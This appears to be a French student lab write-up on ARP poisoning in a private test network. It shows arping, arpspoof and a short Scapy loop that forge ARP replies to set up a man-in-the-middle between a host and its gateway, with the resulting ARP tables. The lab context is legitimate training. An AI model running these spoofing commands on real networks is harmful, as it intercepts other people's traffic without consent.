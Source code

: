 ## 2. ARP poisoning

**Insérer une machine attaquante dans la topologie. Un Kali linux, ou n'importe quel autre OS de votre choix.**

🌞 **Envoyer une trame ARP arbitraire**

```
┌──(kali㉿kali)-[~]
└─$ sudo arping -I eth0 -c 1 -s 11:11:11:11:11:11 -S 10.2.1.45 10.2.1.10
ARPING 10.2.1.10
Timeout

--- 10.2.1.10 statistics ---
1 packets transmitted, 0 packets received, 100% unanswered (0 extra)
```

```
PC1> arp

11:11:11:11:11:11  10.2.1.45 expires in 67 seconds
```

🌞 **Mettre en place un ARP MITM**

```
┌──(kali㉿kali)-[~]
└─$ sudo sysctl -w net.ipv4.ip_forward=1
```
```
┌──(kali㉿kali)-[~]
└─$ sudo arpspoof -i eth0 -t 10.2.1.10 10.2.1.254 -r
8:0:27:6e:e4:5f 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:6e:e4:5f
8:0:27:6e:e4:5f 8:0:27:54:d3:73 0806 42: arp reply 10.2.1.10 is-at 8:0:27:6e:e4:5f
```

🌞 **Capture Wireshark `arp_mitm.pcap`**

[Wireshark MITM](./arp_mitm.pcapng)

🌞 **Réaliser la même attaque avec Scapy**

```
rom scapy.all import *

while True:
        send(ARP(pdst="10.2.1.10", psrc="10.2.1.254"))
        send(ARP(pdst="10.2.1.254", psrc="10.2.1.10"))
```
```
PC1> arp

08:00:27:6e:e4:5f  10.2.1.254 expires in 120 seconds
```

